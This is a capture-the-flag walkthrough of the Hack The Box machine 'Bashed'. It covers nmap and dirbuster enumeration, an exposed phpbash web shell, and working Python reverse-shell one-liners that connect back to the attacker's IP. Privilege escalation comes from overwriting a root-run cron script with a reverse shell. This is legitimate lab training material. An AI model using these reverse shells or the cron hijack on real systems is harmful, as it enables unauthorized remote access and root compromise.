

## Bashed

Machine ip: 10.10.10.68

### Nmap Scanning

### Nmap Scanning

```bash
$ cat nmap/initial.nmap  
# Nmap 7.91 scan initiated Thu Aug 19 16:10:22 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.099s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 19 16:10:34 2021 -- 1 IP address (1 host up) scanned in 12.19 seconds
```

- Home page



- No other pages seem to work, so run dirbuster

- on running `dirbuster`, found following directories and files

```bash
$ Starting OWASP DirBuster 1.
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /images/ - 200
Dir found: /icons/ - 403
File found: /index.html - 200
File found: /single.html - 200
Dir found: /js/ - 200
File found: /js/jquery.js - 200
File found: /js/imagesloaded.pkgd.js - 200
File found: /js/jquery.nicescroll.min.js - 200
Dir found: /demo-images/ - 200
File found: /js/jquery.smartmenus.min.js - 200
File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
File found: /js/custom_google_map_style.js - 200
File found: /js/jquery.mousewheel.min.js - 200
File found: /js/html5.js - 200
File found: /js/jquery.touchSwipe.min.js - 200
File found: /js/jquery.easing.1.3.js - 200
File found: /js/main.js - 200
Dir found: /uploads/ - 200
Dir found: /php/ - 200
File found: /php/sendMail.php - 200
Dir found: /css/ - 200
File found: /css/carouFredSel.css - 200
File found: /css/clear.css - 200
File found: /css/common.css - 200
File found: /css/font-awesome.min.css - 200
File found: /css/sm-clean.css - 200
Dir found: /icons/small/ - 403
Dir found: /dev/ - 200
```

- Out of all `/dev` seems to be interesting and on opening the directory found `phpbash.php` which is running on lightweight bash on the browser.
- Create a reverse shell to connect back to kali machine

__Reverse shell__

```bash
www-data@bashed: /usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 55660
$ ls
ls
bin   etc	  lib	      media  proc  sbin     sys  var
boot  home	  lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv	    usr
```


## Privilege Escalation

- on running `sudo -l`

```bash
www-data@bashed:/home/scriptmanager$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

- running/switching `scriptmanager` user

```bash
www-data@bashed:/home/scriptmanager$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:~$ ls
```

- found a schedules task in `/scripts/test.py` which is run by root
- change the contents and place the reverse shell in place of `test.py` content


- `test.py` after  modifying
```bash
#!/usr/bin/python

import os


import socket
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",4242))
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")

```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp  4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 52878
# id
id
uid=0(root) gid=0(root) groups=0(root)
```


